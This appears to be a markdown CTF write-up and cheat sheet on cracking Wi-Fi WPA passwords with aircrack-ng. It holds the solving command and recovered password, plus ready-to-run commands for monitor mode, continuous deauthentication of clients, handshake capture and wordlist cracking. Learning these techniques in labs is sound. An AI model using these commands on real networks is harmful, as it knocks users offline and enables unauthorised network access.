 # Solving the ctf 
  1. `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 02:1A:11:FF:D9:BD -e 'James Honor 8' NinjaJc01-01.cap`
  2. found the password: greeneggsandham

---

## Wifi Hacking Workflow(Deauthentication Attack Method)
  ```sh
  1. use airmon-ng to enter monitor mode
  2. [opcional] force the clients from the target network to de-authenticate to speed up the process of gathering the 4 way handshake
  3. use airdump-ng to capture packets passing through the interface(monitor mode interface) into pcap files
  4. use aircrack-ng to crack the password from the pcap file
  ```

---

## 1. Armon-ng(used to change interaces into monitor mode)
  - monitor mode: `sudo airmon-ng start wlan0` (assuming wlan0 is your interface's name)
  - the name will likely be: `wlan0mon`
  - kill processes using that network adapter: `airmon-ng check kill`

---

## 2. Aireplay-ng(force the clients to deauth to speed up the process of getting the passwd hash)
  
  deauthenticate specific client:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon`

    - `--deauth 10`: Sends 10 deauthentication packets.
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `-c AA:BB:CC:DD:EE:FF`: The MAC address of the client to deauthenticate.
    - `wlan0mon`: Yor wireless interface in monitor mode
  </details>
  ---
  deauthenticate all clients:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 0 -a 00:11:22:33:44:55 wlan0mon`

    - `--deauth 0`: Sends deauthentication packets continuously (0 means infinite).
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `wlan0mon`: Your wireless interface in monitor mode.
  </details>

---

## 3. Airodump-ng(captures packets from an interface in monitor mode)
  - `sudo airodump-ng wlan0mon`

  - example use: `sudo airodump-ng -c <channel> --bssid <BSSID> -w capture wlan0mon`
    - `-c <channel>`: Specifies the channel of the target network.
    - -`b <BSSID>`: Specifies the BSSID (MAC address) of the target access point.
    - `-w capture`: Writes captured packets to a file named capture-01.cap (increments the file number for subsequent captures).

---

## 4. Aircrack-ng(cracks the hash of the passphrase from the 4-way-handshake pcap file)
  - Important switches
  ```sh
  -b (to specify the bssid)
  -e (to specify the essid)
  -w (to specify a wordlist)
  ```

  - example use: `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture.cap`
